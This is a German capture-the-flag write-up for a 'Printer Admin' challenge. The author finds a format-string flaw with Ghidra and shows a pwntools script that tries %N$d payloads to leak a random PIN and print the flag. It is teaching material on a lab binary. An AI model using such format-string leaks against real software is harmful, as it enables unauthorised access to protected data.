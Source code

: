 # Printer Admin

> We developed a new admin interface for our printer. Since some high-class members of our institute queued some secret print jobs, we secured the access with a pin that is random every time. As long as our special technique to reveal the pin is unknown, this should be safe.


Die Challenge möchte einen Namen und eine Pin als Eingabe und beendet nach Eingabe einer falschen Pin mit traurigen Druckergeräuschen.

![](screenshots/Pasted%20image%2020230327075733.png)

Laut Challenge-Beschreibung gibt es eine Möglichkeit,die richtige Pin, die jedesmal zufällig erzeugt wird, rauszukriegen. Das kann ja dann nur über die Eingabe des Namens passieren, der anschließend ncohmal ausgegeben wird, und ist bestimmt eine Format-String Schwachstelle. Also werfen wir mal einen Blick in den Quellcode mit Hilfe von Ghidra.

![](screenshots/Pasted%20image%2020230327080747.png)


Tatsächlich lässt sich die Namens-Eingabe nutzen, um mit einer Format-String Attacke Zugriff auf die Zufallszahl zu kriegen. Eine gute Erläuterung dazu findet man z.B. hier: https://owasp.org/www-community/attacks/Format_string_attack

Mit `%d` lässt sich die nächste Zahl im Speicher ausgeben. Unsere gesuchte Pin liegt aber nicht direkt an nächster Stelle im Speicher. Dafür kann man etwas wie `%3$d` nutzen, was z.B. die dirttnächste Zahl ausgeben würde. Weil ich nicht alles händisch ausprobieren wollte habe ich ein Script geschireben, das die nächsten 20 Zahlen durchgeht und als Pin ausprobiert. An Stelle 9 wird es fündig und liefert die Flag.

```python
#! /bin/python3

from pwn import *

context.log_level = 'critical'

for i in range(1,20):
        p = process('./printer-admin')
        p.recv() 
        p.sendline(b'%'+str(i).encode()+b'$d')
        r = p.recv()
        pin = r.decode().split('\n')[3]
        p.sendline(pin.encode())
        r = p.recv().decode()
        if ('Show' in r):
                print(f'Working payload: %{i}$d')
                p.sendline(b'2')
                p.recvuntil(b'\n---\n')
                r = p.recv()
                print(r.decode().strip())
                p.close()
                break
        else:
	        p.close()
```